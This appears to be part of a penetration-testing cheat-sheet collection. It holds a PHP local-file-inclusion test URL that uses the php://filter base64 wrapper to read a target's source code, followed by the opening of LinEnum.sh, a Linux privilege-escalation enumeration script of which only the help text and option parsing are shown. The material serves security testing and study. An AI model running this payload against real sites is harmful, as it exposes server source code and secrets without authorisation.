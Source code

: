 ### Situation

`http://<target>/index.php?parameter=value`

### Test

`http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index`

### Take a look at the bloody thing




---
File: /CheatSheets/linux/pos_xpl/LinEnum.sh
---

#!/bin/bash
#A script to enumerate local information from a Linux host
v="version 0.6"
#@rebootuser

#help function
usage ()
{
echo -e "\n\e[00;31m#########################################################\e[00m"
echo -e "\e[00;31m#\e[00m" "\e[00;33mLocal Linux Enumeration & Privilege Escalation Script\e[00m" "\e[00;31m#\e[00m"
echo -e "\e[00;31m#########################################################\e[00m"
echo -e "\e[00;33m# www.rebootuser.com | @rebootuser \e[00m"
echo -e "\e[00;33m# $v\e[00m\n"
echo -e "\e[00;33m# Example: ./LinEnum.sh -k keyword -r report -e /tmp/ -t \e[00m\n"

		echo "OPTIONS:"
		echo "-k	Enter keyword"
		echo "-e	Enter export location"
		echo "-t	Include thorough (lengthy) tests"
		echo "-r	Enter report name"
		echo "-h	Displays this help text"
		echo -e "\n"
		echo "Running with no options = limited scans/no output file"

echo -e "\e[00;31m#########################################################\e[00m"
}
while getopts "h:k:r:e:t" option; do
 case "${option}" in
	  k) keyword=${OPTARG};;
	  r) report=${OPTARG}"-"`date +"%d-%m-%y"`;;
	  e) export=${OPTARG};;
	  t) thorough=1;;
	  h) usage; exit;;
	  *) usage; exit;;
 esac
done
